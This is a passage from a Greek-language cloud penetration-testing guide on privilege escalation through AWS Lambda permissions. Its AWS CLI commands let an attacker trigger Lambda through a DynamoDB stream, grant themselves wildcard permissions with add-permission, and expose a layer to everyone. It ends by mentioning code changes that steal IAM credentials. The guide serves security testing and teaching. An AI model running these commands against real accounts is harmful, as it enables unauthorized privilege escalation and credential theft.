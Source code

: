 ```bash
--attribute-definitions AttributeName=Test,AttributeType=S \
--key-schema AttributeName=Test,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```
Τώρα είναι δυνατό να **συνδέσετε τη συνάρτηση Lambda με τον πίνακα DynamoDB** δημιουργώντας **ένα event source mapping**:
```bash
aws lambda create-event-source-mapping --function-name my_function \
--event-source-arn <arn_of_dynamodb_table_stream> \
--enabled --starting-position LATEST
```
Με τη λειτουργία Lambda συνδεδεμένη με το DynamoDB stream, ο επιτιθέμενος μπορεί **έμμεσα να πυροδοτήσει το Lambda ενεργοποιώντας το DynamoDB stream**. Αυτό μπορεί να επιτευχθεί με **εισαγωγή ενός item** στον πίνακα DynamoDB:
```bash
aws dynamodb put-item --table-name my_table \
--item Test={S="Random string"}
```
**Πιθανός Αντίκτυπος:** Άμεσο privesc στο συγκεκριμένο lambda service role.

### `lambda:AddPermission`

Ένας επιτιθέμενος με αυτό το δικαίωμα μπορεί να **χορηγήσει στον εαυτό του (ή σε άλλους) οποιαδήποτε δικαιώματα** (αυτό δημιουργεί resource based policies για να παραχωρήσει πρόσβαση στον πόρο):
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda invoke --function-name <func_name> /tmp/outout
```
**Πιθανός Αντίκτυπος:** Άμεσο privesc στον ρόλο υπηρεσίας lambda που χρησιμοποιείται, παρέχοντας την άδεια να τροποποιεί τον κώδικα και να τον εκτελεί.

### `lambda:AddLayerVersionPermission`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να **παραχωρήσει στον εαυτό του (ή σε άλλους) την άδεια `lambda:GetLayerVersion`**. Μπορεί να αποκτήσει πρόσβαση στο layer και να αναζητήσει ευπάθειες ή ευαίσθητες πληροφορίες
```bash
# Give everyone the permission lambda:GetLayerVersion
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion
```
**Πιθανός αντίκτυπος:** Πιθανή πρόσβαση σε ευαίσθητες πληροφορίες.

### `lambda:UpdateFunctionCode`

Χρήστες που διαθέτουν την άδεια **`lambda:UpdateFunctionCode`** έχουν τη δυνατότητα να **τροποποιήσουν τον κώδικα μιας υπάρχουσας Lambda function που είναι συνδεδεμένη με ένα IAM role.**\
Ο attacker μπορεί να **τροποποιήσει τον κώδικα της Lambda για να exfiltrate τα IAM credentials**.

